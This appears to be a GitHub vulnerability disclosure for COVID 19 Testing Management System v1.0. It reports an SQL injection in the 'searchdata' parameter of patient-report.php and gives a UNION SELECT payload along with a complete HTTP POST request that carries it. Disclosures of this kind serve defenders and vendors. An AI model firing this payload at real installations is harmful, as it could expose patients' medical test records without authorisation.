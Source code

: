 # COVID 19 Testing Management System v1.0 has SQL injection

BUG_Author: hertz216

Vulnerability File: /covid-tms/patient-report.php

POST parameter 'searchdata' exists SQL injection vulnerability

Payload:searchdata=1') UNION ALL SELECT NULL,NULL,CONCAT(0x71727374,0x31323334,0x61626364),NULL,NULL,NULL,NULL-- -&search=Search

```
POST /covid-tms/patient-report.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=unntgo3ptqns82l8h9h09sqi8u
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/covid-tms/patient-search-report.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 120

searchdata=1') UNION ALL SELECT NULL,NULL,CONCAT(0x71727374,0x31323334,0x61626364),NULL,NULL,NULL,NULL-- -&search=Search
```

![image](https://github.com/mhz2846415362/bug_report/blob/main/vendors/pictures/concat.png)
